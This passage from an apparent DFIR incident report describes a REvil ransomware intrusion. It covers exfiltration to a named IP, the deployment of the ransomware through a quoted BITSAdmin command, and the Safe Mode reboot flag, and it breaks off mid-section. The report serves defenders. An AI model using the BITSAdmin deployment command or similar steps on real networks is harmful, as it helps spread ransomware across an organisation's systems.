 ```
"HTTP Method Path 2": "/OWA/"  
},  
"md5": "27ca24a7f6d02539235d46e689e6e4ac",  
"sha256": "e35c31ba3e10f59ae7ea9154e2c0f6f832fcff22b959f65b607d6ba0879ab641",  
"sha1": "6885d84c1843c41ff8197d7ab0c8e42e20a7ecaa",  
"time": 1615846684589  
}  
}
```

### Exfiltration


Data that was collected from the domain was exfiltrated to a remote server at:



```
45.147.160.5:443
```

![](https://thedfirreport.com/wp-content/uploads/2021/03/55-1.png)


![](https://thedfirreport.com/wp-content/uploads/2021/03/66.png)


### Impact


For the final actions, the threat actors dropped a ransomware executable on the domain controller in C:\Windows and then used BITSAdmin to deploy the executable to remote systems.



```
C:\Windows\system32\bitsadmin.exe /transfer debjob /download /priority normal \\DOMIANCONTROLLER\c$\windows\DOMAINNAME.exe C:\Windows\DOMAINNAME.exe
```

The -smode flag was used with the ransomware executable to set the system to reboot into Safe Mode with Networking as noted by [Malwarehunterteam](https://twitter.com/malwrhunterteam/status/1372635361285959684).



> Not remember seeing these before in REvil ransomware samples.  
> ![🤔](https://s.w.org/images/core/emoji/13.0.1/svg/1f914.svg)  
> So basically the actors using REvil now can use it to reboot target machines into safe mode with networking…[@demonslay335](https://twitter.com/demonslay335?ref_src=twsrc%5Etfw) [@VK\_Intel](https://twitter.com/VK_Intel?ref_src=twsrc%5Etfw) [pic.twitter.com/dLk4EirNFO](https://t.co/dLk4EirNFO)
> 
> — MalwareHunterTeam (@malwrhunterteam) [March 18, 2021](https://twitter.com/malwrhunterteam/status/1372536434125512712?ref_src=twsrc%5Etfw)


See below for -smode execution:

